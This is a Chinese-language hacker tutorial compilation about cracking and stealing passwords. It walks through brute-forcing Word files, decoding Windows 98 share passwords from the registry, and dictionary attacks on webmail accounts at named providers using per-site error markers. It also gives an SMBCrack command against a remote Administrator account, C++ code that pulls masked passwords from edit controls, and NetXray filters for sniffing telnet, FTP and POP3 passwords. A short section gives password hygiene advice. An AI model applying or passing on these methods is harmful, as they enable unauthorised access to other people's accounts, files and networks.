微软出的 Word 这个办公软件相信大家都用过，它是一种出色的文本编辑工具，使用 Word 编辑文档的时候可以给文档加密，保证文件的保密性。可惜呀，道高一尺，魔高一丈！Word 的这个功能刚出世，立刻就有人编写了破解 Word 文档加密密码的程序。从上面的三篇教程中相信读者学会了不少，现在我再带大家学习如何破解 Word 文档。

## 一、Word 文档的加密

以笔者的 Word XP 为例，要加密的文件为 flying.doc，方法如下：

进入 Word，打开文件 flying.doc，点击 Word 的“工具”菜单，选择“选项”，如图26所示。


## 主题乐园

将会弹出“选项”对话框，选择“安全性”标签，在“此文档的文件加密选项”下面设置“打开权限密码”和在“此文档的文件共享选项”下设置“修改权限密码”就可以了，如图27所示。


以后打开文档都会弹出如图28所示的对话框询问两个密码了，是不是有点安全的感觉？

## 二、Word文档的密码破解

Word虽然是国际上流行的一种文档格式，但它的保密性却不能满足我们的安全需要（包括微软的Office系列软件）。现在笔者使用AOPR（Advanced Office Password Recovery的缩写，意为“高级Office密码破解”），与上面教程三的AZPR是同一个公司出品，大家可以到上面的主页下载最新版。该软件可以同时对Office系统中的Word、Excel和Access等软件进行解密。

使用方法：运行AOPR，在File Name中选中加密文件的路径，在Type of attack中选择Brute-force-attack项（暴力破解），然后选中Brute-force标签。Minimal length为1，Maximal length设置为4或者以上（这是密码的长度范围），然后在下边的Brute-force range options中选择相应的密码组成元素，如图29所示。

最后点上面的“Start”三角符号即可，详看图30，密码“111”被破解出来了！


> “密码破解教程之五”

## Windows 98共享密码破解

上面说了那么多，这个经典的密码破解就不得不说了。Windows 98那么破烂，但偏偏就有那么多的人喜欢它，所以，它的密码破解也引来了黑客们的注意了，破解的方法实在是太多了！现在来为大家略举一二。

### 一、局域网共享密码破解

相信大家都接触过局域网吧，学校的机房、街头的网吧、公司的办公室……所连接的都是局域网。网络主机之间有时为了信息交流的需要，常常将自己硬盘的某些文件夹设置为与人共享，在自己机器的“网上邻居”可以看到该台局域网的主机共享情况。双击图标就可以访问到对方的资源，很多人以为随便设置个访问的密码就心安理得地工作了，实际上不是的！Windows 98漏洞太多，首先，它的共享密码校验有BUG，很容易破解出密码；其次，破解了共享密码之后，可以利用系统本身的设备名参数处理错误的漏洞来使你的机器产生蓝屏，给您的工作带来不便。下面便来看看如何破解局域网内的共享密码。

解密工具：NetPass 1.0

工具介绍：本软件解压缩后只有136K大小，是利用了Win95/98的“速度破解器漏洞”，数秒之内即可破解局域网上主机共享文件夹密码。本软件运行于Win98下破解对方Win98共享密码，测试通过并且速度特快。

注意事项：本软件对Windows NT/2000的主机无效。

破解实例：现在要破解一台名字为flying的共享主机上的文件夹d，双击NetPass.exe，出现如图31所示的窗口。


在“对方主机名”里填上：flying；“共享文件夹”里填：d；直接点击“开始”按钮就可以了，IP地址不用管，软件会翻译出flying主机的IP地址，不到几秒钟，密码就破解出来了；是“111”！只有真正使用的时候才感觉得到它的速度之快，如图32所示。

### 二、在注册表里查Windows 98共享密码

远程主机的密码如此被破解，或者本地机器就设置了共享密码，但是机灵并非别人灵，修改容易，但如果要看硬盘什么东西又不想惊动机器的主人呢？再加上手头上又没有破解软件呢？那就没有办法了吗？那也不一定，正所谓“天无绝人之路”嘛：），在注册表里面可以轻松地查到机主设置的共享密码。

注意：别以为这种方法的危害不大，特别是在公司里的局域网或是网吧都有危险的！尤其是后者危害最大！攻破了一台机器的共享密码，往往就取得了整个网吧的控制权，笔者就有过这样的经历，请大家重视！

方法：在“开始→运行”里打入“regedit”，回车进入注册表，找到如下键值：

HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Network\LanMan

看其中的parmlenc项（这个便是密码的藏身之处，要根据本地机器的共享数而定），假设您看到parmlenc的键值为“74d80e”，把它拆分成两个字节组合“74 d8 0e”，看下面列表：

74 = A，d8 = B，0e = C

所以，密码组合起来就是“ABC”。

### 附：共享密码对照表

| 字符 | 对照值 |
|---|---|
| A | =74 =db =0c =e7 =12 =e8 =95 =2b |
| B | =77 =d8 =0f =e4 =11 =eb =96 =28 |
| C | =76 =d9 =0e =e5 =10 =ea =97 =29 |
| D | =71 =de =09 =e2 =17 =ed =90 =2e |
| E | =70 =df =08 =e3 =16 =ec =91 =2f |
| F | =73 =dc =0b =e0 =15 =ef =92 =2c |
| G | =72 =dd =0a =e1 =14 =ee =93 =2d |
| H | =7d =d2 =05 =ee =1b =e1 =9c =22 |
| I | =7c =d3 =04 =ef =1a =e0 =9d =23 |
| J | =7f =d0 =07 =ec =19 =e3 =9e =20 |
| K | =7e =d1 =06 =ed =18 =e2 =9f =21 |
| L | =79 =d6 =01 =ea =1f =e5 =98 =26 |
| M | =78 =d7 =00 =eb =1e =e4 =99 =27 |
| N | =7b =d4 =03 =e8 =1d =e7 =9a =24 |
| O | =7a =d5 =02 =e9 =1c =e6 =9b =25 |
| P | =65 =ca =1d =f6 =03 =f9 =84 =3a |
| Q | =64 =cb =1c =f7 =02 =f8 =85 =3b |
| R | =67 =c8 =1f =f4 =01 =fb =86 =38 |
| S | =66 =c9 =1e =f5 =00 =fa =87 =39 |
| T | =61 =ce =19 =f2 =07 =fd =80 =3e |
| U | =60 =cf =18 =f3 =06 =fc =81 =3f |
| V | =63 =cc =1b =f0 =05 =ff =82 =3c |
| W | =62 =cd =1a =f1 =04 =fe =83 =3d |
| X | =6d =c2 =15 =fe =0b =f1 =8c =32 |
| Y | =6c =c3 =14 =ff =0a =f0 =8d =33 |
| Z | =6f =c0 =17 =fc =09 =f3 =8e =30 |
| space | =15 =ba =6d =86 =73 =89 =f4 =4a |
| 1 | =04 =ab =7c =97 =62 =98 =e5 =5b |
| 2 | =07 =a8 =7f =94 =61 =9b =e6 =58 |
| 3 | =06 =a9 =7e =95 =60 =9a =e7 =59 |
| 4 | =01 =ae =79 =92 =67 =9d =e0 =5e |
| 5 | =00 =af =78 =93 =66 =9c =e1 =5f |
| 6 | =03 =ac =7b =90 =65 =9f =e2 =5c |
| 7 | =02 =ad =7a =91 =64 =9e =e3 =5d |
| 8 | =0d =a2 =75 =9e =6b =91 =ec =52 |
| 9 | =0c =a3 =74 =9f =6a =90 =ed =53 |
| 0 | =05 =aa =7d =96 =63 =99 =e4 =5a |
| ~ | =4b =e4 =33 =d8 =2d =d7 =aa =14 |
| ` | =55 =fa =2d =c6 =33 =c9 =b4 =0a |
| ! | =14 =bb =6c =87 =72 =88 =f5 =4b |
| @ | =75 =da =0d =e6 =13 =e9 =94 =2a |
| # | =16 =b9 =6e =85 =70 =8a =f7 =49 |
| $ | =17 =be =69 =82 =77 =8d =f0 =4e |
| % | =10 =bf =68 =83 =76 =8c =f1 =4f |
| ^ | =6b =c4 =13 =f8 =0d =f7 =8a =34 |
| & | =13 =bc =6b =80 =75 =8f =f2 =4c |
| * | =1f =b0 =67 =8c =79 =83 =fe =40 |
| ( | =1d =b2 =65 =8e =7b =81 =fc =42 |
| ) | =1c =b3 =64 =8f =7a =80 =fd =43 |
| - | =18 =b7 =60 =8b =7e =84 =f9 =47 |
| _ | =6a =c5 =12 =f9 =0c =f6 =8b =35 |
| + | =1e =b1 =66 =8d =78 =82 =ff =41 |
| = | =08 =a7 =70 =9b =6e =94 =e9 =57 |
| [ | =6e =c1 =16 =fd =08 =f2 =8f =31 |
| ] | =68 =c7 =10 =fb =0e =f4 =89 =37 |
| { | =4e =e1 =36 =dd =28 =d2 =af =11 |
| } | =48 =e7 =30 =db =2e =d4 =a9 =17 |
| ; | =0e =a1 =76 =9d =68 =92 =ef =51 |
| : | =0f =a0 =77 =9c =69 =93 =ee =50 |
| ' | =12 =bd =6a =81 =74 =8e =f3 =4d |
| " | =17 =b8 =6f =84 =71 =8b =f6 =48 |
| , | =19 =b6 =61 =8a =7f =85 =f8 =46 |
| < | =09 =a6 =71 =9a =6f =95 =e8 =56 |
| . | =1b =b4 =63 =88 =7d =87 =fa =44 |
| > | =0b =a4 =73 =98 =6d =97 =ea =54 |
| ? | =0a =a5 =72 =99 =6c =96 =eb =55 |
| / | =1a =b5 =62 =89 =7c =86 =fb =45 |
| \ | =69 =c6 =11 =fa =0f =f5 =88 =36 |
| \| | =49 =e6 =31 =da =2f =d5 =a8 =16 |

对照这张表，你就可以破解任何的共享密码了！

> “密码破解教程之六”

## 电子邮件密码剽雪——飘雪破解器

电子邮件是当前最常用的网络交流方式，基于邮件系统的不安全和网民密码安全意识的低下，仍然给黑客有可乘之机。由于小榕的软件“飘雪”在破解E-mail密码方面比较著名，故在本教程里笔者让其自成一章，作为电子邮箱密码破解的代表。

### 一、飘雪简介

小榕软件“飘雪”的运行原理是：通过提取asp、cgi页面表单，搜寻表单运行后的错误标志，有了错误标志后，再挂上字典文件来破解信箱密码。对于用简单英文单词和自己生日等简单密码的朋友，这个软件将是你的噩梦！

把汉化路径指向你的飘雪安装路径，汉化后，打开飘雪会提示“程序可能被病毒或捆绑的不良感染，你想要离开吗？”大概10秒后会自动关闭飘雪！选择否，不管它！本人建议使用英文版，汉化bug较多！

飘雪 Beta 7 下载地址：http://www.netxeyes.com

汉化文件下载地址：http://www.skycn.com/down.php?id=4457

### 二、破解实例

在浏览里，小榕已经有比较详细的帮助说明了，这里就用笔者的邮箱flyingabcdefg@21cn.com为例子，简单地介绍一下破解步骤。

#### 1、选定目标

运行浏览器，出现如图33所示的界面。是不是很酷？

在地址栏里输入www.21cn.com，如图34所示。从这里你就可以看到，实际浏览当中也是个不错的浏览器。


#### 2、开始破解

现在我们便来开始破解了，点击菜单“模式->标准模式(N)”，浏览界面便成了图35的样子了，窗口的客户区分成了六大块。


接着，点击菜单“文件->从当前URL导入”强制提取表单，如图36所示。很多时候都是这样的，这样会在表单设置区，打勾的项根据不同的网站有不同的项，我们关心的是用户名和密码，其他的可以根据情况选择。如图37所示。


注意：该版没有加入对于Frame的自动分析和提取，对于含有Frame的页面，在页面上点右键，选择属性，将URL复制到飘雪的地址栏即可，待页面出现之后即可用上述方法提取表单。

接下来我们进行一点简单设定：首先双击username，在弹出的Element [username] Properties对话框的“单元常量”中填入用户名，如这里是flyingabcdefg，当然也可以是多个用户，中间用“,”间隔后OK了。如图38所示。

其次双击password，在弹出的Element [password] Properties对话框的“使用字典”中选择合适的字典，这里为了简单，选择了Normal.dic，如图39所示。

设定完毕后，就要进行一下探测测试，看设定是否正确。点击“运行”下的“提交测试”，如图40所示。提示出错信息，这里是“系统提示信息”“对不起，你没有访问此邮箱的权限！”；若没有提示请检查设定（这里的错误标志，正是飘雪利用的地方）。

接下来就是破解了，点击“运行”菜单下的“开始／重新开始(S) Ctrl+R”，在弹出对话框中选择“只探测一次”，目的你应该清楚吧！如图41所示。

接下来会弹出标志选择框，将错误标志复制到Tags框中，这里是“欢迎使用21CN个人商务邮箱”，如图42所示。

这里需要留意的是错误标志的选择，是要靠长期的使用经验来判断。飘雪的用户手册中也有一定的介绍。单击“确定”后就可以等待结果了，当然不可能每次都那么顺利得到密码；字典和错误标志的选择将直接决定你破解操作的成败！

### 三、附：关于在标志选择框中选择错误标志

- 1. www.263.net —— `<title>warning 警告</title>`
- 2. www.163.com —— `<title>网易通行证</title>`
- 3. www.163.net —— `<title>MyTom 登陆</title>`
- 4. www.21cn.com —— `<title>欢迎使用21CN个人商务邮箱</title>`
- 5. www.sohu.com —— 探测标志中没有任何明显的标志，这时关闭Option下User Select Error Tag Sensitive，采用Error Tag的方法。
- 6. www.371.net —— 探测标志中没有任何明显的标志，这时关闭Option下User Select Error Tag Sensitive，采用Error Tag的方法。
- 7. www.elong.com —— `<title>密码不正确</title>`
- 8. www.sina.com.cn —— `<title>我的新浪－新浪邮箱</title>`
- 9. www.china.com —— `<title>登录页面</title>`
- 10. cn.yahoo.com —— 探测标志中提示换行，属于错误标志，仍是关闭Option下User Select Error Tag Sensitive，采用Error Tag的方法。

### 四、如何防范飘雪的破解

- 1. 首先，自己的安全意识要高，不要轻易暴露自己的信箱地址和论坛、聊天室的用户名，以免引起“有心人”注意。特别是有些人看见论坛上有人发帖：“本人送9999个6位数字的QQ号码！谁要的请与我联系”，就马上跟帖：“我要！！给我一个！我的信箱是XXX@YYY.com”。这样等于送羊入虎口，天下有那么好的午餐吗？6位号码白白送？现在9位的都申请不到了！
- 2. 把你的密码设置得复杂一些，不要设置成纯数字或纯字母。可以将密码设置成数字与字母相结合型，并且使长度大于7位以上，打开浏览器的密码导出文件看看就知道了，不要设置类似的密码，你会有所收获的。
- 3. 要经常更换密码，一个密码使用时间不能太长，这可是个好习惯哦。


图41


图42

> “密码破解教程之七”

## Windows 2000密码破解

### 一、本地登录密码破解

至于本地登录密码破解，还是使用Win2k密码大盗好了，可以用来得到Windows NT4.0/2000/XP的超级用户密码。下载解压缩后，只要我们运行PassWordNt.exe程序，程序提示安装成功，重新启动电脑，就可以得到登录密码了，密码保存在C:\Santuo.txt文件下。由于操作非常简单和篇幅限制，不在此浪费大家的时间了，大家下一个回来用就知道了。现在将接近教程的尾声了，下面讲讲Windows 2000远程密码的破解，我想这才是大家感兴趣的话题。

### 二、远程密码破解

使用工具：小榕的SMBCrack，最新版本为v4，大小只有57.5K，据小榕所说，该工具和以往的SMB（共享）暴力破解工具不

## 主题乐园

同样，没有采用系统的 API，而是使用了 SMB 的协议。大家可以到小榕软件实验室：www.netxeyes.org 下载。


图 4.5

使用方法：在“开始”->“运行”里键入 cmd，进入命令行提示符，转到 SMB Crack 所在的目录直接执行它，出现如图 4.5 所示的控制台运行界面。

其中，主要参数 `<IP>` 为你所要破解的远程计算机的 IP 地址；`<Username>` 为你要破解的用户的名称，如 Administrator；`<Password file>` 为字典文件的路径和名称。如果用我 C 盘下的字典文件 password.dic 去破解主机 192.168.0.1 上的 Administrator 用户的密码，可以这样破解：

```text
SMBCrack 192.168.0.1 administrator c:\password.dic
```

“密码破解教程之八”

## 密码破解原理揭秘

作为本教程的最后一课，也应该好好总结一下了。从上面密码截取过程中我们看到了，所谓的密码破解总体上分为“智取”与“暴力”两大门派，其中“智取”派尤为“聪明”，代表的绝招是：直接截取密码。通过“教程一”的“密码截取器”的使用方法可以看出，不论你的密码设置有多么复杂，只要碰上了这些程序都无济于事，都能被截获到；而“暴力”派虽然有点愚蠢，但是世间上还有比它更愚蠢的人，将自己的密码设置得超短、简单，“暴力”派在这些人面前仍然可以大发淫威！

### 一、获取密码的原理

密码的输入框是一个 Edit 控件，而 Edit 控件是 Windows 的一个标准控件，在编程的过程中将它的 Password 属性设置为 True 时，就会将输入的内容屏蔽为星号，从而达到保护的目的。虽然表面看起来还是星号，但程序中的 Edit 控件实际仍然是用户输入的密码，在应用程序中获得该控件中的内容就等于获得了密码。而其他的应用程序，如某些密码截取的程序，可以通过向该控件发送 WM_GETTEXT 或者 EM_GETLINE 消息来获取 Edit 控件中的内容，截取原理就这么简单！一些黑客程序正是利用了 Edit 控件的这种特性，当发现当前探测的窗口是 Edit 控件并且具有 ES_PASSWORD 属性时，则通过 SendMessage 向该窗口发送 WM_GETTEXT 或者 EM_GETLINE 消息，就可以得到 Edit 控件中的内容了。

### 二、截取密码的程序实现

这里介绍黑客截取密码的常用方法。首先，要取得当前的窗口，并判断是否是 Edit 控件，一般都是通过鼠标来指定要探测的窗口（也可以从窗口的标题入手，如截获 QQ 登录密码时就从标题为“QQ 用户登录”的窗口开始探测的，但不如鼠标的直接）。例如在 WM_MouseMove 消息的响应函数中进行判断，部分代码如下：

```cpp
// 先来将客户坐标转换成屏幕坐标
ClientToScreen(&point);

// 返回一个包含指定屏幕坐标点的窗口
CWnd* pWnd = CWnd::WindowFromPoint(point);
if(pWnd)
{
    // 获取窗口句柄
    HWND hwndCurr = pWnd->GetSafeHwnd();
    // 上面三句代码便可以获取当前鼠标位置所在窗口的句柄，在下面的 SendMessage 函数中要用到的
    if((::GetWindowThreadProcessId(GetSafeHwnd(),NULL))!=(::GetWindowThreadProcessId(hwndCurr,NULL)))
    {
```

```cpp
char lpClassName[255];
// 获取类名
if(::GetClassName(hwndCurr,lpClassName,255))
{
    // 判断是否是 Edit 控件
    if(0==m_strWndClass.CompareNoCase("EDIT"))
    {
        // 获取窗口风格
        LONG lStyle = ::GetWindowLong(hwndCurr,GWL_STYLE);
        // 如果设置了 ES_PASSWORD 属性
        if(lStyle & ES_PASSWORD)
        {
            char szText[255];
            // 通过外部的句柄 hwndCurr 向此控件发送 WM_GETTEXT 消息
            ::SendMessage(hwndCurr,WM_GETTEXT,255,(LPARAM)szText);
            // 精华就在于这一句了，第一个参数指定了要接收消息的窗口句柄，我们已经通过上面的代码获取到了；第二个参数就是让 Edit 控件返回字符的 WM_GETTEXT 消息了，并将得到的内容保存于 szText 中。
            // 密码已经保存在 szText 中了。
            m_strPassword = szText;
        }
    }
}
```

## 主题乐园


阿瓜最近看武侠小说着了魔，甚至看到《新华字典》都会想“里面说不定藏着什么武功秘籍”。所以阿瓜听到椿哥谈论“解密宝典”时，头脑里立刻闪现出“葵花宝典”、“归元秘籍”、“九阴真经”等武功秘籍的样子，眼睛直放绿光，吓得椿哥以为他得了狂躁病。

其实解密字典和密码破解工具就像枪与弹药的关系，谁也离不开谁。前面介绍了枪的威力，现在我们来看弹药的秘密。

对于密码来说，可以有各种组成方式。有的是纯数字，有的是纯字母，有的包括特殊字符，有的是各种字符的组合。但是，使用密码的人，出于记忆方便考虑，一般都会用有一定意义的密码，或者是生日，或者是姓名，或者是某个单词，或者是在这些基础上的变体，例如名字双写、生日倒转等。

字典工具的功能就是按照这些规律来生成相应的字典，在字典中如果包括要破解的密码，那么使用这个字典就能“查出”这个密码了。

## 1.1 常规字典

这类密码工具功能强大，可以制作包含各种情况的密码，就像各门大派的武功，博大精深，但是掌握起来需要较多的时间。起步较难，进步较慢，但是一旦升级，就会威力无穷。

### 1.1.1 黑客字典2

这是一个功能十分强大的字典。我们看看它的启动界面。


图1 黑客字典2

这个字典工具提供了两种运行方式：以向导方式运行和以普通方式运行。初次使用可以选第一种方式，使用熟练后选第二种方式。我们分别介绍。

先看第一种方式。

在图1中按下“确定”，出现如下界面。


图2 以向导方式运行


图3 设置选项

这样设置的结果是产生 AAAA1111~DDDD4444 的所有组合。最下面的“符号（0x20~0x2E）”是指在 ASCII 码表中的字符。如果选中，则字母组合为所选的字母范围加上符号（对应于 ASCII 码中的 33~47）。

点“下一步”进行更多设置。


图4 选择特殊格式

各选项的含义如下：

- 1. 所有字母大写  
  对应于前面的设定，产生的字典范围：AAAA1111~DDDD4444。
- 2. 首字母大写  
  对应于前面的设定，产生的字典范围：Aaaa1111~Dddd4444。

在这里要做一些选择。要制作什么样的字典呢？是纯数字的还是纯字母的，又或者是两者都有呢？例如我们要制作包括 4 个字母（a、b、c、d）和 4 个数字（1、2、3、4）的字典。我们就如下设置。

- 3. 数字在字母前  
  对应于前面的设定，产生的字典范围：1111aaaa~4444zzzz。
- 4. 使用 LF 间隔  
  一般的破解软件所使用的字典要求每个单词间用 LF 和 CR 作为间隔，但是也有要求只用 LF 做间隔的，如：CrackZip。
- 5. 只使用声母字母  
  在研究了大量密码之后发现有很大一部分密码都是以用户自己名称的拼音简写加数字而来；而一般拼音缩写的字母绝大多数是声母字母。于是这里就有针对性地设置了这个选项。

选择完毕后，看下一步。


再下一步。


在高级选项中，可以自由地定制单词的形式。

- （1）使用高级选项生成字典

如果使用这种方式来产生字典，就可以对字典的每一位进行定制。例如可以定制第一位是字母，第二位为数字，第三位为字母，第四位为符号……等。这些字母或数字的范围取决于在“基本”中的设定。如果没有设定，则默认字母从 a~z，数字从 0~9。

- （2）定制每一个位置字典的范围

如果上述的要求还不能满足您的话，那么就只有采用这个功能了。如果采用了这个功能，那么前面的所有选项都统统失效。使用的方法是这样：

首先在 C: 的根目录下建立一个文本文件（纯文本），名字为 CustBanyet.Def。

在这个文件中输入单词中每一位的范围（每一行代表一位，超过 8 行则 8 行后自动舍弃。每行字符数不大于 40）。如：

```text
abcdefghijklmnopqrstuvwxyz
23456
~!@#$%
ABC
```

如果文件如上面一样，则产生的字典中每一个单词的第一位的范围就是第一行的字符串范围（abcdefghijklmnopqrstuvwxyz）；第二行的范围就是第二行的字符串……以此类推。

注意：在 C:\CustBanyet.Def 文件没有建立之前，该选项是无效的。


设置完成后，按“开始”按钮，字典生成成功。

第二种方式其实还是设置这些东西，只不过界面不同罢了。第二种方式的界面如下。


这个字典工具最适合制作姓名缩写加数字格式的密码字典了。下面再看另一个比较强大的字典。

### 1.1.2 字典专家


使用方法如下。

首先确定密码段数，比如我们确定为 3，然后按“刷新”按钮。


然后选择密码存放位置。


下面就可以设置每段的密码了。


如上图所示，每段可以设置的选项有 9 个。我们可以根据需要选择。

如果密码是“姓 + 分隔符 + 数字”的形式，可以如下设置。第一段选择百家姓，第二段选择分隔符，第三段选择数字。


如果要添加自己定义的符号，可以直接在“添加”下方的文本框中写入，然后再点击“Add”即可。

点击“生成（Begin）”按钮，生成密码成功。

另外，还可以使用“其他”功能来设置密码。

在这里可以加上“关键字”……就是一定包含在密码中的某个字符串。

还可以选择添加“前缀”和“后缀”。设置完毕按“预览”可以查看结果，点击“生成”生成密码。

这一款字典工具的设计很有特色，也很有用。

### 1.1.3 超级字典生成器

阿瓜：“又是一个超级 XX，有超级扫描、超级炸弹，所以也有超级字典生成器。这些超级武器让我们阿瓜这个超人来用真是合适不过了；呵呵呵……”


字典设置方法如下。

先设置基本字符的内容。


基本字符是指密码中要包含的基本字符，可以选择数字、字母和其他特殊字符。要选用哪个字符只要在该字符的前面框中打上对钩即可。选择完毕后，切换到“自定义”选项板。


图17 自定义设置

在这里可以添加自定义字符串，相当于前面说过的“关键字”。另外这里也可以设定特殊位，设定特殊位后，该位就是固定的字符了。

这里设置完了，就可以切换到“生成字典”选项板进行生成字典的设置了。


图20 设置生日

填写开始年份月份和结束年份月份，范围尽量精确。然后选择生日模式，如果没把握就全都选上，不过这样字典会大一点。

选择完毕切换到“生成字典”选项板。


图18 生成字典的设置

在这里选择字典的保存路径，确定密码位数，要生成几位的密码就选择几，都选上表示生成所有 1~8 位的密码字典。生成的密码是由基本字符构成的，构成规则受自定义设置的限制。选择完毕后，点击“生成字典”就可以生成超级字典了。

按上面的选择生成的结果如下所示。


图21 使用生日生成字典

如上设置完后，点击“生成字典”，开始生成字典。


图19 生成密码字典的结果

下面我们回过头来看使用生日来设置密码字典。比如我们要生成生日格式的字典，我们需要如下设置。


图22 生日密码

OK，又一个密码工具介绍完了。

## 1.2 特色字典工具

下面介绍几款比较有特色的字典工具。

> 阿瓜：“有特色的东西一般都是好的，比如特色小吃、特色服装、特色风景、特色技术、特色的人……啊——，嘿嘿，这最后一个不算。”

榕哥：“小小年纪，整天胡思乱想！什么特色，那叫喜欢欣赏美女。你呀，这么大了，还不多学点文化。哪像我，上……”

### 1.2.1 黑客字典生成器

这个字典生成器的特色就是考虑了解密时的算法。生成密码时采用了一些常用算法。使用界面如下所示。


图1 黑客字典生成器

可以选择大小写字母、数字、特殊字符作为密码的内容，也可以自己添加自定义字符集。使用方法很简单，特色就是可以选择不同的算法：深度算法、多线程算法、广度算法、多线程广度算法。

我们举个例子，比较一下这几种算法的区别。例如，我们选择数字、五位密码、默认的 5 个线程，其他不选。设置方法如下所示。


图2 例子


图3 深度算法结果


图4 广度算法结果


图5 多线程深度算法


图6 多线程广度算法

四种算法在探测同一密码时的速度是不一样的，可以根据需要选择不同算法。

### 1.2.2 生日密码生成器

这是一个专门用生日做密码的工具，也很有特色。使用界面如下所示。


图7 生日密码生成器

这个软件最大的特点就是支持了几乎所有的生日格式。我们可以看看它支持的格式都有哪些（不完全举例）。


图8 生日格式之一


图9 生日格式之二


图10 生日格式之三


图11 生日格式之四

总共加在一起大约有六十多种生日格式。

阿瓜：“真全啊，不过我估计我一辈子也不会把这些格式全用上的。”

> 榕哥：“你还别嫌多，还不打折，另外还有双写的功能呢。”


呵呵，好家伙，只要是你用生日做密码，你再怎么变化，也逃不出如来佛祖的掌心啦。

### 1.2.3 Txt2Dic

这个工具更好玩了，它可以把文本文件中的单词抽出来做成字典。使用界面如下。


使用举例。例如我们有一篇英文文章存放在“D:\TEXT.TXT”文件中，我们想把这篇文章中的单词抽出来做字典，我们只需这样设置。


其中过滤字串是指要从文章中去掉的字符。单词最小长度选大一点，可以去掉一些简单的单词。设置完毕后，点击开始就可以生成字典了。

> 榕哥：“各门各派的武功宝典基本上就这些了。如果你觉得不过瘾，那你就只好自创一套武功，自己写秘籍了。”

阿瓜沉思：“嗯，……第一招不如叫神龙摆尾……”

阿瓜悟道：宝典虽然博大精深，妙用无穷，但是没有深厚的内功基础也不易修炼。所以要想使用好黑客字典，首先要加强黑客基本功的练习。


## 原理篇

嗅探器（Sniff）是能够捕获网络报文的设备，可以理解为一个安装在计算机上的窃听设备，它可以用来窃听计算机在网络上传输的众多信息，今天给大家简单讲讲嗅探技术。

要了解嗅探器及其工作方法，首先我们要知道它的原理：网络的一个特点就是数据总是在“流动”中，从一处到另一处，而互联网是由错综复杂的各种网络交汇而成的，也就是说当你的数据从网络的一台电脑传输到另一台电脑的时候，通常会经过大量不同的网络设备。（我们用 tracert 命令就可以看到这种路径是如何进行的。）如果传输过程中，有人看到传输中的数据，那么问题就出现了——这就好比你给别人发了一封邮件，在半路上被人拆开偷窥一样。这样说或许你还觉得不是很可怕，那要是你传送的数据是你们企业的机密文件，或是你的信用卡账号和密码？……

嗅探主要有两种途径，一种是将侦听工具软件放到网络连接的设备或者放到可以控制网络连接设备的电脑上（比如网关服务器、路由器）——当然要实现这样的效果可能还需要通过其他黑客技术来实现！比如通过木马方式将嗅探器发给某个网络管理员，使其不自觉地为攻击者进行了安装。另一种是针对不安全的局域网（采用共享 HUB 实现），我们个人电脑上就可以实现对整个局域网的侦听。这里的原理是这样的：共享 HUB 获得一个子网内需要接收的数据时，并不是直接发送到指定主机，而是通过广播方式发送到每个电脑。对于处于接收者地位的电脑就会处理该数据，而其他非接收者的电脑就会过滤这些数据。这些操作与电脑操作者无关，是系统自动完成的，但是电脑操作者如果有意的话，他是可以将那些原本不属于他的数据打开的！——这就是安全隐患！

嗅探器分软件和硬件两种。硬件不是我们这些喜欢用 down 的网虫能用得起的，所以只有用软件——而且是免费的！

## 应用篇

## 秘密武器辑贴

## 一、实用工具介绍

### 独行者——NetXray

NetXray 是一款常用的嗅探器，也是个功能强大的东东，它具备了常用的嗅探功能，并且使用方便。下面我们来看它的具体用法初步骤：（NetXray 是个功能很强大的软件，由于篇幅限制，不可能全部把它的功能讲完，所以只能选择常用的功能略做介绍，其它的留待有兴趣的你去慢慢摸索。）

### 1．整体轮廓

因为 NetXray 是英文版的，对讨厌 E 文的朋友来说是件令人头疼的事，所以先了解大体框架是有必要的；NetXray 的主界面如图 1 所示：


菜单栏有六个选项，分别为文件（file）、捕获（capture）、包（packet）、工具（tools）、窗口（window）和帮助（help）。

它的工具栏里集合了大部分的功能，依次为：打开文件（Open）、保存（Save）、打印（Print）、取消打印（Abort Printing）、回到第一个包（First Packet）、前一个包（Previous）、下一个包（Next）、到达最后一个包（Last Packet）、仪表板（Dashboard）、捕获板（Capture Panel）、包发生器（Packet Generator）、显示主机表（Host Table）等。

NetXray 的大部分功能都能用工具栏里的按钮实现。

### 2．确定目标

依次点击：Capture 菜单中的 Capture Filter Setting，单击 Profiles 选择 New，进入如图 2 所示对话框，在 New Profile Name 中输入 First，以 Default 为模板选择 OK，然后选择 Done。


设置过滤所有目标 IP 是 xxx.xxx.xxx.xxx 的报文，即指向 Any 输入：xxx.xxx.xxx.xxx。现在就可以开始抓包了，同时用 IE 登录你刚才输入的 IP，会发现 NetXray 窗口中的指针在移动，等到提示你过滤到包后，就可以停止抓包了。

选中一个目标 IP 是 xxx.xxx.xxx.xxx 的报文，选择菜单条中的 Packet → Edit Display Filter → “Data Pattern” → “Add Pattern”，到 TCP 层选中 8080 目标端口，用鼠标选择“set data”，在 name 中输入 “TCP”。点击 OK，确定；然后在 Packet 中选择 “Apply Display Filter”。以后用 proxy 规则过滤将只过滤目标 IP 是 xxx.xxx.xxx.xxx，目标端口是 8080 的报文。

### 3．设定条件（端口）

确定好了目标，下面来设定嗅探的条件：依次选择：Filter Setting → Data Pattern。举一例说明：过滤经过 bbs（端口 2323）的 IP 包，先选中第一行，用 Toggle AND/OR 调整成 OR，如图 3 所示，选择 Edit Pattern，在弹出的对话框里设置：Packet 34，2 Hex（十六进制），从顶头开始填写 09 13（因为十进制的 2323 对应十六进制的 0x0913），而 IP 包使用网络字节顺序，高字节在低地址。起名为 beginbbs，单击 OK，再次选择 Edit Pattern：Packet 36，2 Hex，从顶头开始填写 09 13，起名为 endbbs，单击 OK。于是最外层的 OR 下有两个叶子，分别对应两个 Pattern。


### 4．实战开始

NetXray 所谓的高级协议过滤，事实上就是端口过滤，用上面介绍的方法指定源端口、目标端口均过滤 0x00 0x17（23），就可以达到和指定 telnet 过滤一样的效果。因为 telnet 就是 23 端口，所以如果想捕捉一个非标准 telnet 的通信，必须自己指定端口过滤。

如果是分析 telnet 协议并还原屏幕显示，只需要抓从 server 到 client 的回显数据即可，因为口令不回显，这种过滤规则下抓不到口令明文。用 NetXray 抓从 client 到 server 包，指定过滤 PASS 关键字。设置方法如下：

先指定 IP 过滤规则，“Capture → Capture Filter Setting...” 设定为 any <--> any，以最大可能地捕捉口令。然后增加一个过滤模式：Packet 54，4 Hex，0x50 41 53 53；再增加一个过滤模式：Packet 54，4 Hex，0x70 61 73 73。两者是 OR 模式，因为这种关键字在网络传输中大小写不敏感。剩下的就是等口令来了。注意，不必指定过滤特定高级协议，直接指定过滤 IP 协议族就可以了。

## 主题乐园

这种办法是很容易把 ftp/pop3 口令看清楚的。（以上过程由 http://cntroopers.myetang.com/ 的站长提供，特此感谢！）

## 二、如何使用 IRIS 嗅探器

yubin

